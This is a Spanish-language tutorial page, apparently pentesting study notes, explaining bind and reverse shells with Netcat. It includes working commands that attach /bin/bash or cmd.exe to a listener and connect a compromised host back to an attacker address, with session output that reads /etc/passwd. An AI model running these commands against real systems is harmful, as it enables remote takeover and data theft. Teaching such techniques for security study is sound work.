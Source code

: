 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Invertir y vincular shells(Reverser/Bind Shells)

Un _shell_ es una utilidad que actúa como interfaz entre un usuario y el sistema operativo.&#x20;

En Linux existen varios entornos de shell, como Bash, ksh y tcsh.En Windows el shell es el símbolo del sistema , que se invoca mediante cmd.exe.

Windows PowerShell es un shell de Microsoft más nuevo que combina la antigua funcionalidad CMD con un nuevo conjunto de instrucciones de scripting/cmdlet con funcionalidad de administración del sistema integrada. Los cmdlets de PowerShell permiten a los usuarios y administradores automatizar tareas complicadas con scripts reutilizables.

Con un shell de enlace, un atacante abre un puerto o un escucha en el sistema comprometido y espera una conexión. Esto se hace para conectarse a la víctima desde cualquier sistema y ejecutar comandos y manipular aún más a la víctima.&#x20;

<img src="../../../.gitbook/assets/file.excalidraw (5).svg" alt="" class="gitbook-drawing">

Un shell inverso es una vulnerabilidad en la que un sistema atacante tiene un oyente (puerto abierto y la víctima inicia una conexión con el sistema atacante.

<img src="../../../.gitbook/assets/file.excalidraw (9).svg" alt="" class="gitbook-drawing">

### Netcat

```
NAME
                 nc - TCP/IP swiss army knife

SYNOPSIS
             nc [-options] hostname port[s] [ports] ...
             nc -l -p port [-options] [hostname] [port]

DESCRIPTION
             netcat is a simple unix utility which reads and writes
data across network connections, using TCP or UDP protocol. It is
designed to be a reliable "back-end" tool that can be used directly
or easily driven..........>

```

Un atacante podría usar el comando **`nc -lvp 1234 -e /bin/bash`** en el sistema comprometido (192.168.78.6) para crear un escucha en el puerto **`1234`** y ejecutar ( **-e** ) el shell Bash ( **/bin/bash** ).

#### C_reación de un shell de enlace utilizando Netcat._

```
~$ nc -lvp 1234 -e /bin/bash
listening on [any] 1234 ...
```

> Windows **nc -lvp 1234 -e cmd.exe** Netcat.

En el sistema atacante (192.168.78.147), se utiliza el comando nc -nv 192.168.78.6 1234 para conectarse con la víctima**.** Una vez que el atacante (192.168.78.147) se conecta con la víctima (192.168.78.6), se invoca el comando **ls** y se muestran tres archivos en la pantalla del atacante.

#### _Conexión al Bind Shell mediante Netcat_

```
~# nc -nv 192.168.78.6 1234
(UNKNOWN) [192.168.78.6] 1234 (?) open
ls
secret_doc_1.doc
secret_doc_2.pdf
secret_doc_3.txt
```

#### _Un atacante conectado a una víctima mediante un Bind Shell_

```
~$ nc -lvp 1234 -e /bin/bash
listening on [any] 1234 ...
connect to [192.168.78.6] from (UNKNOWN) [192.168.78.147] 52100 
```

Uno de los desafíos de usar shells de enlace es que si el sistema de la víctima está detrás de un firewall, el puerto de escucha podría estar bloqueado. Sin embargo, si el sistema de la víctima puede iniciar una conexión con el sistema atacante en un puerto determinado, se puede utilizar un shell inverso para superar este desafío.

Para crear un shell inverso, puede usar el comando **nc -lvp 666** en el sistema atacante para escuchar un puerto específico.

#### _Creación de un oyente en el sistema atacante para crear un shell inverso usando Netcat_

```
~# nc -lvp 666
listening on [any] 666 ...
192.168.78.6: inverse host lookup failed: Unknown host
connect to [192.168.78.147] from (UNKNOWN) [192.168.78.6] 32994
ls
secret_doc_1.doc
secret_doc_2.pdf
secret_doc_3.txt 

```

Luego, en el host comprometido, puede usar el comando **nc 192.168.78.147 666 -e /bin/bash** para conectarse al sistema atacante.

_Conexión al sistema atacante (Shell inverso) mediante Netcat_

```
~$ nc 192.168.78.147 666 -e /bin/bash
```

Una vez que el sistema víctima (192.168.78.6) esté conectado al sistema atacante (192.168.78.147), puede comenzar a invocar comandos.

#### _Ejecutar comandos en el sistema de la víctima a través de un Shell inverso_

```
~# nc -lvp 666
listening on [any] 666 ...
192.168.78.6: inverse host lookup failed: Unknown host
connect to [192.168.78.147] from (UNKNOWN) [192.168.78.6] 32994
ls
secret_doc_1.doc
secret_doc_2.pdf
secret_doc_3.txt
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin

<output omitted for brevity>

```
